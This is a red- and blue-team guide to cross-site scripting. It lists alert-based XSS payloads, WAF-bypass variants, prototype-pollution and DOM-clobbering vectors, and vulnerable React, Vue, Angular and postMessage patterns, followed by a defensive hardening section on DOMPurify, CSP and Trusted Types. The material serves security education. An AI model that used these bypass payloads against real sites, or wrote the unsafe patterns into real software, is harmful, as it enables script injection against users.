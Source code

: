 ```yaml
---
title: 🛡️ Complete XSS Series – Red & Blue Team Guide
date: 2025-04-14
---
```


# 🛡️ Complete XSS Series – Red & Blue Team Guide

🚀 Created for **Hack Tools Dark Community**

---

## 📖 Table of Contents

1. [XSS Basics and Exploitation](#1-xss-basics-and-exploitation)
2. [Modern WAF Bypass Techniques](#2-modern-waf-bypass-techniques)
3. [XSS in SPAs (React, Angular, Vue)](#3-xss-in-spas-react-angular-vue)
4. [DOM Clobbering & Prototype Pollution + XSS](#4-dom-clobbering--prototype-pollution--xss)
5. [XSS via postMessage, Shadow DOM, and iframe Abuse](#5-xss-via-postmessage-shadow-dom-and-iframe-abuse)
6. [Trusted Types Bypass & iframe Sandbox Escapes](#6-trusted-types-bypass--iframe-sandbox-escapes)
7. [Full Blue Team Hardening Guide](#7-full-blue-team-hardening-guide)

---

## 1. XSS Basics and Exploitation

Cross-Site Scripting (XSS) allows attackers to execute arbitrary JavaScript in user browsers. It's still among the most exploited vulnerabilities today.

### Common Types of XSS
- **Stored XSS**: Injected script is stored and executed when viewed.
- **Reflected XSS**: Script is reflected off the server (e.g., via URL).
- **DOM-Based XSS**: Triggered entirely client-side.

### Example Payloads
```html
<script>alert('XSS')</script>
<img src=x onerror=alert(1)>
<a href="javascript:alert(1)">Click</a>
```

---

## 2. Modern WAF Bypass Techniques

### Techniques:
- HTML entity encoding
- Hex/Unicode encoding
- Broken tags
- JavaScript URIs
- `data:` URIs with SVG
- Mutation XSS (mXSS)

### Real Bypass Payloads
```html
<svg><script xlink:href=data:,alert(1)></script></svg>
<iframe srcdoc="<script>alert`1`</script>"></iframe>
<video><source onerror="alert(1)">
```

---

## 3. XSS in SPAs (React, Angular, Vue)

### React:
```jsx
<div dangerouslySetInnerHTML={{ __html: userInput }} />
```

### Vue:
```html
<div v-html="userInput"></div>
```

### Angular:
```ts
this.trust = sanitizer.bypassSecurityTrustHtml(userInput);
```

Other vectors: `localStorage`, route injection, rich text editors.

---

## 4. DOM Clobbering & Prototype Pollution → XSS

### DOM Clobbering
```html
<input name="submit" value="alert(1)">
```

### Prototype Pollution
```js
_.merge({}, JSON.parse('{ "__proto__": { "x": "<img src=x onerror=alert(1)>" } }'));
```

Can lead to poisoned logic and HTML injection.

---

## 5. XSS via postMessage, Shadow DOM, and iframe Abuse

### postMessage XSS
```js
window.addEventListener('message', (e) => {
  document.getElementById('output').innerHTML = e.data;
});
```

### Shadow DOM
```js
el.attachShadow({mode: 'open'}).innerHTML = userInput;
```

### iframe abuse
```html
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```

---

## 6. Trusted Types Bypass & iframe Sandbox Escapes

### Trusted Types Bypass
```js
document.body.innerHTML = String(userInput); // Unsafe wrapper
```

Use DOMPurify in TT mode:
```js
DOMPurify.sanitize(input, {RETURN_TRUSTED_TYPE: true});
```

### Sandbox Escape
```html
<iframe src="evil.html" sandbox="allow-scripts allow-same-origin"></iframe>
```

Avoid combining `allow-scripts` and `allow-same-origin`.

---

## 7. Full Blue Team Hardening Guide

### Defenses:
- DOMPurify for sanitization
- Context-aware escaping
- Content-Security-Policy (CSP)
- Trusted Types
- Safe framework use (no v-html, dangerouslySetInnerHTML)
- Prototype key blacklisting (`__proto__`, `constructor`)
- iframe sandboxing
- Secure cookies (`HttpOnly`, `Secure`, `SameSite`)
- CSP reporting & logging

### Sample CSP Header
```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'none';
```

---

## 🎯 Conclusion

Modern XSS defense and offense require creativity and precision. Whether you're building secure systems or breaking them as a Red Teamer — mastering the full landscape of XSS is essential.

[⬅ Back to Home]({{ site.baseurl }}/)
